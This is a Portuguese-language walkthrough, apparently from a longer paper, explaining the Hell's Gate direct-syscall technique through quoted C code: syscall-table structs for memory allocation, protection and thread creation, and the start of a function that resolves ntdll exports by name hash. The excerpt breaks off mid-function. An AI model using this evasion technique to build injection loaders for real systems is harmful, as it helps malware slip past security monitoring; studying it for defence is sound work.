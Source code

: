 O código do Hell’s Gate começa definindo a estrutura [VX_TABLE_ENTRY](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L8). Essa estrutura representa uma syscall e contém o endereço, o valor de hash do nome da syscall e o SSN.

```c
typedef struct _VX_TABLE_ENTRY {
	PVOID   pAddress;             // The address of a syscall function
	DWORD64 dwHash;               // The hash value of the syscall name
	WORD    wSystemCall;          // The SSN of the syscall
} VX_TABL
```

Por exemplo, NtAllocateVirtualMemory seria representado como VX_TABLE_ENTRY NtAllocateVirtualMemory.

## Syscalls Table

As syscalls que estão sendo usadas são mantidas dentro de outra estrutura, [VX_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14). Como cada membro dentro de `VX_TABLE` é uma syscall, cada membro será do tipo `VX_TABLE_ENTRY`.

```c
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;
```

## Opening the Hell’s Gate

A função principal começa chamando a função [RtlGetThreadEnvironmentBlock](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L50) que é usada para obter o TEB. Isso é necessário para retornar o endereço base da `ntdll.dll` por meio do PEB (lembre-se de que o PEB está localizado dentro do TEB, no elemento `PPEB ProcessEnvironmentBlock`). Em seguida, o diretório de exportação do `ntdll.dll` é obtido usando [GetImageExportDirectory](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L60). O diretório de exportação é encontrado analisando os cabeçalhos DOS e Nt. (Que foi visto como acessar no começo do paper !)

Em seguida, para cada syscall, o membro `dwHash` é inicializado (por exemplo, `NtAllocateVirtualMemory.dwHash`) com seu valor de hash correspondente. A cada inicialização, a função `GetVxTableEntry` é chamada, como mostrado abaixo. A função foi dividida em várias partes para simplificar o processo de explicação.

### **GetVxTableEntry - Part 1**

```c
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
	PDWORD pdwAddressOfFunctions    = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
	PDWORD pdwAddressOfNames        = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
	PWORD pwAddressOfNameOrdinales  = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

	for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
		PCHAR pczFunctionName  = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
		PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

		if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
			pVxTableEntry->pAddress = pFunctionAddress;

			// ...
```